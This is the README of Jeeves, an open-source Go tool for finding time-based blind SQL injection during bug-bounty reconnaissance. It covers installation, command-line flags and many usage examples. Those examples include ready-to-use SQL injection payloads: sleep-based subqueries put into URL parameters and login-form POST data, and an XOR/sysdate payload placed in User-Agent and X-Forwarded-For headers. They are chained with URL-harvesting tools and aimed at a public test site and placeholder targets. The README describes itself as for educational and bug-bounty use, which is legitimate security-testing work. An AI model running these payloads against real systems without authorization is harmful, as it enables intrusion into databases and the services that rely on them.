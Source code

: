 [![made-with-Go](https://img.shields.io/badge/made%20with-Go-brightgreen.svg)](http://golang.org)
<h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## Contents:

- [Installation](#--installation--requirements)
- [Usage](#--usage--explanation)
  - [Adding Headers](#adding-headers)
  - [Using Proxy](#using-proxy)
  - [Making Post Request](#post-request)
  - [Multiple ways of usage](#another-ways-of-usage)


## - Installation & Requirements:

Installing Jeeves 💀

```bash
$ go install github.com/ferreiraklet/Jeeves@latest
```
OR
```bash 
$ git clone https://github.com/ferreiraklet/Jeeves.git
$ cd Jeeves
$ go build jeeves.go
$ chmod +x jeeves
$ ./jeeves -h
```
<br>


## - Usage & Explanation:
In Your recon process, you may find endpoints that can be vulnerable to sql injection,
Ex: https://redacted.com/index.php?id=1
    
### Single urls

```bash
echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves -t payload_time
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves -t 10
```

In --payload-time you must use the time mentioned in payload

<br>

### From list 

```cat targets | jeeves --payload-time 5```
    
### Adding Headers

Pay attention to the syntax! Must be the same =>

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -H "Testing: testing;OtherHeader: Value;Other2: Value"
```

### Using proxy

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 --proxy "http://ip:port"
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -p "http://ip:port"
```
<br>

Proxy + Headers =>

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port" -H "User-Agent: xxxx"
```

### Post Request

Sending data through post request ( login forms, etc )

Pay attention to the syntax! Must be equal! ->

```bash
echo "https://example.com/Login.aspx" | jeeves -t 10 -d "user=(select(0)from(select(sleep(5)))v)&password=xxx"
echo "https://example.com/Login.aspx" | jeeves -t 10 -H "Header1: Value1" -d "username=admin&password='+(select*from(select(sleep(5)))a)+'" -p "http://yourproxy:port"
```

## Another ways of Usage

You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght

<br>

**Command line flags**:
```bash
 Usage:
 -t, --payload-time,  The time from payload
 -p, --proxy          Send traffic to a proxy
 -c                   Set Concurrency, Default 25
 -H, --headers        Custom Headers
 -d, --data           Sending Post request with data
 -h                   Show This Help Message
```  

<br> 

Using with sql payloads wordlist

```bash
cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves -t 5;done
```

Testing in headers

```bash
echo "https://target.com" | jeeves -H "User-Agent: 'XOR(if(now()=sysdate(),sleep(5*2),0))OR'" -t 10
echo "https://target.com" | jeeves -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(5*2),0))OR'" -t 10

Payload credit: https://github.com/rohit0x5
```

OBS: 
* Does not follow redirects, If the Status Code is diferent than 200, it returns "Need Manual Analisys"
* Jeeves does not http probing, he is not able to do requests to urls that does not contain protocol ( http://, https:// )
<br>

## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.


## Please, also check these => <br>
> [Nilo](https://github.com/ferreiraklet/nilo) - Checks if URL has status 200

> [SQLMAP](https://github.com/sqlmapproject/sqlmap)

> [Blisqy](https://github.com/JohnTroony/Blisqy) Header time based SQLI
